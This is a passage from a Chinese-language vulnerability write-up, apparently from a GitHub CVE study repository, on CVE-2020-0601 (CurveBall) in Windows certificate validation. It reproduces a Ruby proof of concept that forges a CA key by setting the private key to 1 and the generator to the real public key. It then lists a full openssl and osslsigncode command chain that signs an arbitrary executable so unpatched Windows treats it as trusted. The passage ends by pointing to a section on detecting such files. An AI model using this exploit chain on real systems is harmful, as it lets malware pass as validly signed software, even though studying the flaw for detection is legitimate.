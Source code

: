 &emsp;&emsp;<font size=2>可能还会有人很疑惑为什么我们既然知道K，那么为什么我们不能搞出一个自己的k'和G'使得k'G' = K呢？不可能的，因为椭圆曲线与RSA类似，都是利用的分解困难的原理，虽然G通常都是公共的，已定义的，但是在我们已知G和K的情况下仍然不可能得到k，爆破？省省吧。CVE-2020-0601的出现使得自定义一个G和k的情况下，定义`k = 1`和`G = K`轻易完成认证攻击。</font></br>

&emsp;&emsp;<font size=2>接下来我们看看[ollypwn](https://github.com/ollypwn/CurveBall)给出的POC，main.rb脚本如下：</font></br>

```ruby
require 'openssl'

raw = File.read ARGV[0]
ca = OpenSSL::X509::Certificate.new(raw) # Read certificate
ca_key = ca.public_key # Parse public key from CA

ca_key.private_key = 1 # Set a private key, which will match Q = d'G'
group = ca_key.group
group.set_generator(ca_key.public_key, group.order, group.cofactor)
group.asn1_flag = OpenSSL::PKey::EC::EXPLICIT_CURVE
ca_key.group = group # Set new group with fake generator G' = Q

File.open("spoofed_ca.key", 'w') { |f| f.write ca_key.to_pem }
```

&emsp;&emsp;<font size=2>其中就是定义了`k = 1`，并且设置基点G（generator）为公钥的值，导出了重新计算后的证书，并将至签名到一个PE文件完成攻击，然后整个攻击流程像这样：</font></br>

- 在未打补丁的机器上，使用certmgr.msc打开证书管理器，将下面这个证书使用默认的DER编码保存就行了，如果没有的话可能是Windows版本不对：

![导出根证书](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2020-0601/screenshot/导出根证书.png)

- cmd进入clone下来的ollypwn仓库目录，使用`ruby main.rb your.cer`命令，参数就是你刚保存的证书，最好在Windows下跑，不然`OpenSSL::PKey::EC::EXPLICIT_CURVE`会报错；
- 使用`openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt`命令，这条命令最好在管理员权限下跑，不然会有random state错误；
- 执行`openssl ecparam -name secp384r1 -genkey -noout -out cert.key`；
- 执行`openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs`
- 执行`openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs`；
- 执行`openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12`；
- 执行`osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in your.exe -out signed_your.exe`；osslsigncode打开pe文件失败的话可能是因为`-in`参数后面的不是绝对路径。

&emsp;&emsp;<font size=2>这样就算是签名完成了，如果漏洞利用成功的话，`explorer`、`WinVerifyTrust API`或是`signtool`里看都应该是正常的：</font></br>

![explorer验签](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2020-0601/screenshot/explorer验签.png)

![命令行验签](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2020-0601/screenshot/命令行验签.png)

&emsp;&emsp;&emsp;<font size=2>那么实际检测的时候我们可以按照漏洞的原理，检测是否有利用此漏洞的恶意PE文件。这就是下一节要讲的。</font></br>

------

#### PE文件的恶意签名检测

